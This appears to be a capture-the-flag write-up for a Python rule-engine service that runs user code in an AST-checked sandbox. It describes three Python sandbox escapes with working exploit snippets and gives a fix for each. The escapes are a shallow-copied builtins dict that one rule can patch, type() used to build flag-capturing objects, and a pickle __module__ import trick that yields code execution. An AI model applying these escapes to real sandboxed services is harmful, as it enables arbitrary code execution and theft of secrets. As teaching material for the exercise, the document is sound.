

# The Fraud Detector Service

The service emulates a company internal service for combat fraud. Since the fraud evolves over time, the service provides the rule engine and allows to dynamically add rules and to test them. Similar services are used by large companies, like Uber, [https://eng.uber.com/mastermind/](https://eng.uber.com/mastermind/).

The rule is a Python-code which runs in a sandbox. The sandbox cuts the set of available functions and global variables, leaving only "safe" objects. Also, it forbids dangerous import and attribute-access statements by constructing an Abstract Syntax Tree (AST) from the code and examining types if its nodes.

To interact with the rule engine, the service provides an HTTP-based API with four endpoints:

* get_rules() -> [rule_names]
* get_users() -> [users]
* add_rule(name, body) -> result
* check_user(rules, user) -> [fraud_probabilities]

There are no endpoints to add or delete users, all users are predefined. Every user is a dict with various keys: name, surname, age, rating, etc.

For convenience the service includes a website to interact with the API:



As in real life, the rule contents are secret, so the flags are inside them.


# Known Vulns

## Shallow Copy of Globals Dict

When a user is checked against the rules, the engine constructs the global variables for every rule this way:

```python
BASE_GLOBS = {
    "__builtins__": {**SAFE_FUNCTIONS, **SAFE_OBJS}
}

def run_rule(rule, user):
    globs = BASE_GLOBS.copy()
    globs.update({
        "user": user,
        "fraud_prob": 0
    })

    ast_rule = ast.parse(rule)
    ASTSecurityChecker().visit(ast_rule)

    code = compile(ast_rule, filename="rule.py", mode="exec")
    exec(code, globs)
    fraud_prob = min(100, max(0, globs["fraud_prob"]))

    return fraud_prob
```

The copy of _BASE_GLOBS_ is shallow, which means the "_\_\_builtins\_\__" dictionary will be the same across the single rule set. If an attacker overwrites the function in _\_\_builtins\_\__, it will be overwritten for all further rules.

The sploit idea is to overwrite the *sha256* function in the first rule to save its arguments in some variable:

```python
def patched_sha256(flag):
    if len(flag) == 32:
        __builtins__["flags"] += [flag]
    return b"f" * 32

__builtins__["flags"] = []
__builtins__["sha256"] = patched_sha256
```

In the end, the set rules which give the contents of the saved variable should be executed. For example, the first character can be got by the following rule:

```python
flags_str = str(flags)
fraud_prob = ord(flags_str[0]) - 32
```

The full sploit can be found at [/exploits/fraud_detector/spl1.py](../exploits/fraud_detector/spl1.py). A half of flags can be stolen using this vuln.

**The fix**: replace shallow copy with the deep copy.

## Ambiguity of the Type Function

It the sandbox, the types can't be constructed the *class* keyword, because Python tries to call _\_\_build_class\_\__ function which is not among the permitted objects. But the *type* function can be used not only for getting the type of its argument, but also for constructing own type.

The attributes of user object can be replaced with a special object which overrides operations like addition, length extraction, getting an item by index and so on, saving their arguments for stealing them:

```python
def add(self, flag):
    if len(flag) == 32:
        user["flags"] += [flag]
    return "f" * 32

user["flags"] = []
A = type("A", (), {"__radd__": add, "__add__": add,
                   "__getitem__": lambda *a: "a", "__len__": lambda *a: 42})

user["name"] = user["surname"] = user["registered_at"] = user["favorite_music"] = A()
```

An attacker can execute this code as the first rule and get the saved variables in the further rules, using similar technology as in the previous vuln:

```python
flags = str(user["flags"])
fraud_prob = ord(flags[0]) - 32
``` 

The full sploit can be found at [/exploits/fraud_detector/spl2.py](../exploits/fraud_detector/spl2.py). Another half of flags can be stolen using this vuln.

**The fix**: restrict the *type* function to only accept a single argument.

## Remote Code Execution

To restrict CPU and memory resources, the _check_user_ call runs the rule set in the subprocess:

```python
def run_rules_safe(rules, user):
    executor = concurrent.futures.ProcessPoolExecutor(max_workers=1, initializer=set_limits)
    future = executor.submit(run_rules, rules, user)
    return future.result(timeout=2.0)
```

If there was an exception during execution, it will be serialized using a *pickle* module and sent to the parent process. How does the pickle serialize an object of user class? It looks in which module it is declared and *import* that module to find the class declaration inside. So if an attacker manages to fool pickle, its module will be imported without the sandbox. To fool it let us examine the C source of pickle module (file _Modules/\_pickle.c_ in Python):

```c
static int
save_global(PicklerObject *self, PyObject *obj, PyObject *name)
{
    ...
    module_name = whichmodule(obj, dotted_path);
    if (module_name == NULL)
        goto error;
    ...
    module = PyImport_Import(module_name);
    ...
}

...

static PyObject *
whichmodule(PyObject *global, PyObject *dotted_path)
{
    ...
    if (_PyObject_LookupAttrId(global, &PyId___module__, &module_name) < 0) {
        return NULL;
    }
    if (module_name) {
        ...
        if (module_name != Py_None){
            return module_name;
        }
        Py_CLEAR(module_name);
    }
    ...
}
```

So the module can be specified in _\_\_module\_\__ attribute of the object. If to go deeper and analyze the type creation, we see that the _\_\_module\_\__ attribute is taken from the _\_\_name\_\__ of the module (file _Objects/typeobject.c_):

```c
static PyObject *
type_new(PyTypeObject *metatype, PyObject *args, PyObject *kwds)
{
    ...
    /* Set __module__ in the dict */
    if (_PyDict_GetItemIdWithError(dict, &PyId___module__) == NULL) {
        if (PyErr_Occurred()) {
            goto error;
        }
        tmp = PyEval_GetGlobals();
        if (tmp != NULL) {
            tmp = _PyDict_GetItemIdWithError(tmp, &PyId___name__);
            if (tmp != NULL) {
                if (_PyDict_SetItemId(dict, &PyId___module__,
                                      tmp) < 0)
                    goto error;
            }
            else if (PyErr_Occurred()) {
                goto error;
            }
        }
    }
    ...    
}
```

To get the full remote code execution, an attacker can create a file to execute, say _spl.py_ using an API and import it using a payload like this:

```python
__name__ = "data.rules.spl"
def exit(this, exc_type, exc_value, exc_traceback):
    raise type("E", (exc_type,), {})()
with type("C", (), {"__enter__": lambda s: None, "__exit__": exit})():
    pwn
```

One more trick used here is how to create an exception. In Python, all exceptions must be inherited from BaseException subclass, but we don't have any of them available. To get one it is possible to create context manager with custom _\_\_exit\_\__ function and cause an exception. The exception type is passed as the second argument of this function.

Another elegant way to get the command execution is:

```python
__name__ = "data.rules.%s"
fraud_prob = type("A", (), {"__gt__": lambda s, o: True, "__lt__": lambda s, o: True})()
```

This allows a malicious object to be passed unchanged after this code:

```python
fraud_prob = min(100, max(0, globs["fraud_prob"]))
```

The full sploit can be found at [/exploits/fraud_detector/spl3.py](../exploits/fraud_detector/spl3.py). All flags can be stolen using this vuln.

**The fix**: don't allow custom exceptions to be thrown in the _run_rules_safe_ function, patch the _type_ function to only accept a single argument.
